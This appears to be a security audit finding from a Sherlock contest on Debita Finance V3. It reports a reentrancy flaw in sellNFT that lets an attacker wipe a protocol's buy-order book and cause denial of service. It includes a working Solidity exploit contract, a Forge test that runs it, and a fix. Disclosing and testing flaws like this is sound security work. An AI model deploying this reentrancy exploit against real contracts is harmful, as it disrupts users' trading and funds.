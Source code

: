 Cheery Powder Boa

Medium

# An attacker can wipe the orderbook in buyOrderFactory.sol

### Summary

A malicious actor can wipe the complete buy order orderbook in `buyOrderFactory.sol`. The attack - excluding gas costs - does not bear any financial burden on the attacker. As a result of the exploit, the orderbook will be temporarily inaccessible in the factory, leading to a DoS state in buy order matching, and in closing and selling existing positions.

### Root Cause

The function `sellNFT(uint receiptID)` lacks reentrancy protection:
https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/buyOrders/buyOrder.sol#L92

### Internal pre-conditions

N/A

### External pre-conditions

N/A

### Attack Path

1. Attacker calls `createBuyOrder(address _token, address wantedToken, uint _amount, uint ratio)` with exploit contract supplied in parameter `wantedToken`
2. Attacker calls `sellNFT(uint receiptID)` which triggers the exploit sequence
3. Exploit contract will reenter `sellNFT` multiple times, triggering a cascade of buy order deletions

### Impact

The orderbook in `buyOrderFactory.sol` will be inaccessible. The function `getActiveBuyOrders(uint offset, uint limit)` is used by off-chain services to gather buy order data - this data will be temporarily blocked. Deleting existing buy orders (`deleteBuyOrder()`) and selling NFTs (`sellNFT(uint receiptID)`) will also be temporarily blocked until the issue is resolved manually. Issue can be resolved manually by:
- Opening dummy buy orders with very little collateral
- Closing/selling positions on existing "legit" orders

### PoC

Note: the PoC is somewhat hastily developed as the audit deadline is quite short relative to the project scope. Executing the PoC with the verbose flag (forge test -vvvv) will show that deletion is triggered multiple times.

Exploit contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface BuyOrder {
    function sellNFT(uint receiptID) external;
}

contract Exploit {
    BuyOrder public buyOrder;
    uint public counter = 0;
    uint public counterMax = 2;

    struct receiptInstance {
        uint receiptID;
        uint attachedNFT;
        uint lockedAmount;
        uint lockedDate;
        uint decimals;
        address vault;
        address underlying;
    }

    constructor() {}

    function setBuyOrder(address _buyOrder) public {
        buyOrder = BuyOrder(_buyOrder);
    }

    fallback() external payable {
        if (counter < 2) {
            counter++;
            buyOrder.sellNFT(0);
        }

        if (counter == counterMax) {
            counter++;
            buyOrder.sellNFT(1);
        } 

    }

    function getDataByReceipt(uint receiptID) public view returns (receiptInstance memory) {
        uint lockedAmount;
        if (receiptID == 1) {
            lockedAmount = 1;
        } else {
            lockedAmount = 0;
        }

        uint lockedDate = 0;
        uint decimals = 0;
        address vault = address(this);
        address underlying = address(this);
        bool OwnerIsManager = true;
        return receiptInstance(receiptID, 0, lockedAmount, lockedDate, decimals, vault, underlying);
    }

}
```

Forge test:
```solidity
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import "forge-std/StdCheats.sol";

import {BuyOrder, buyOrderFactory} from "@contracts/buyOrders/buyOrderFactory.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import "@openzeppelin/contracts/token/ERC721/utils/ERC721Holder.sol";

import {Exploit} from "./exploit.sol";

contract BuyOrderTest is Test {
    buyOrderFactory public factory;
    BuyOrder public buyOrder;
    BuyOrder public buyOrderContract;
    ERC20Mock public AERO;
    Exploit public exploit;

    function setUp() public {
        BuyOrder instanceDeployment = new BuyOrder();
        factory = new buyOrderFactory(address(instanceDeployment));
        AERO = new ERC20Mock();
    }

    function testMultipleDeleteBuyOrder() public {
        address alice = makeAddr("alice");
        deal(address(AERO), alice, 1000e18, false);

        vm.startPrank(alice);
        IERC20(AERO).approve(address(factory), 1000e18);
        exploit = new Exploit();

        factory.createBuyOrder(address(AERO), address(AERO), 1, 1);
        factory.createBuyOrder(address(AERO), address(AERO), 1, 1);
        factory.createBuyOrder(address(AERO), address(AERO), 1, 1);
        
        address _buyOrderAddress = factory.createBuyOrder(
            address(AERO),
            address(exploit),
            1,
            1
        );

        exploit.setBuyOrder(_buyOrderAddress);
        buyOrderContract = BuyOrder(_buyOrderAddress);

        buyOrderContract.sellNFT(2);

        vm.stopPrank();
    }

}

```

### Mitigation

Apply reentrancy protection on the function `sellNFT(uint receiptID)`:
https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/buyOrders/buyOrder.sol#L92